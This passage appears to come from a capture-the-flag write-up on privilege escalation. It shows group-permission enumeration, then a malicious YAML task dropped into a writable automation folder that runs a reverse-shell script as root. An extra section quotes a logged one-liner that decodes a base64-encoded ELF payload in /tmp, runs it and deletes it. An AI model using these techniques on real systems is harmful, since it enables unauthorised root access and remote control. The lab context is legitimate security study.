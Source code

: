     All YAML files in `/opt/automation/tasks/` folder are executed, can I write to them?

    `ls -al /opt/automation/`
    ```
    drwxrwxr-x 2 root staff 4096 Apr 25 21:14 tasks
    ```

    `id`
    ```
    uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
    ```

    `find / -group staff 2>/dev/null`
    ```
    /opt/automation/tasks
    /root
    ```
    
    `ls -al /`
    ```
    drwx------   6 root staff  4096 Mar  6 13:15 root
    ```

    I just have to create an evil YAML file:
    ```yml
    - hosts: localhost
      tasks:
        - name: RShell
          command: bash /tmp/revshell.sh
    ```

<br><br>

## Extra (just for fun)

- While running `pspy64` I stumbled upon this command and couldn't resist reversing the binary:
    ```
    2023/04/25 17:22:42 CMD: UID=1000  PID=26889  | /bin/sh -c echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXAoKDkdRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/ccXxY.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/ACsmb' < '/tmp/ccXxY.b64' ; chmod +x '/tmp/ACsmb' ; '/tmp/ACsmb' ; rm -f '/tmp/ACsmb' ; rm -f '/tmp/ccXxY.b64'
    ```

    Spread over several lines it becomes:
    ```bash
    /bin/sh -c echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAAMf9qCViZthBIidZNMclqIkFaagdaDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXAoKDkdRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== >> '/tmp/ccXxY.b64'
    